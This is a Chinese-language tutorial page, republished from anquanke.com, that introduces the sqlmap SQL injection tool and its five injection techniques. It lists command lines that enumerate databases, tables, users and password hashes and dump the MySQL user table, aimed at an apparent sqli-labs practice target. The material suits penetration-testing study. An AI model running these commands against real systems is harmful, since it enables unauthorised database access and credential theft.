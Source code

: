 ```yaml
---
{"dg-publish":true,"title":"sqlmap","dg-path":"安全/工具/sqlmap.md","permalink":"/安全/工具/sqlmap/","dgPassFrontmatter":true}
---
```


> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.anquanke.com](https://www.anquanke.com/post/id/235846)

> 安全客 - 安全资讯平台

![](https://p0.ssl.qhimg.com/t01e1cadd763d794f6d.jpg)

作者：谢公子

# Sqlmap


**sqlmap** 是一个自动化的 SQL 注入工具，其主要功能是扫描，发现并利用给定的 URL 进行 SQL 注入。目前支持的数据库有 MySql、Oracle、Access、PostageSQL、SQL Server、IBM DB2、SQLite、Firebird、Sybase 和 SAP MaxDB 等

Sqlmap 采用了以下 5 种独特的 SQL 注入技术

*   基于布尔类型的盲注，即可以根据返回页面判断条件真假的注入
*   基于时间的盲注，即不能根据页面返回的内容判断任何信息，要用条件语句查看时间延迟语句是否已经执行 (即页面返回时间是否增加) 来判断
*   基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回到页面中
*   联合查询注入，在可以使用 Union 的情况下注入
*   堆查询注入，可以同时执行多条语句时的注入

Sqlmap 的强大的功能包括 数据库指纹识别、数据库枚举、数据提取、访问目标文件系统，并在获取完全的操作权限时执行任意命令。

sqlmap 是一个跨平台的工具，很好用，是 SQL 注入方面一个强大的工具！

我们可以使用 -h 参数查看 sqlmap 的参数以及用法，**sqlmap -h**

![](https://p1.ssl.qhimg.com/t01bdaeb5865a613177.png)

sqlmap 默认的 User-Agent：sqlmap/1.1.9.22#dev ([http://sqlmap.org](http://sqlmap.org/))

![](https://p0.ssl.qhimg.com/t0125c050b4a36f54c6.png)

# Sqlmap 的简单用法


```
sqlmap -r http.txt  
sqlmap -r http.txt -p username  
sqlmap -u "http://www.xx.com/username/admin*"       
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"   
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --data="u  
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  
有时候使用 --passwords 不能获取到密码，则可以试下
-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时
-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db 
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables 
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns 
```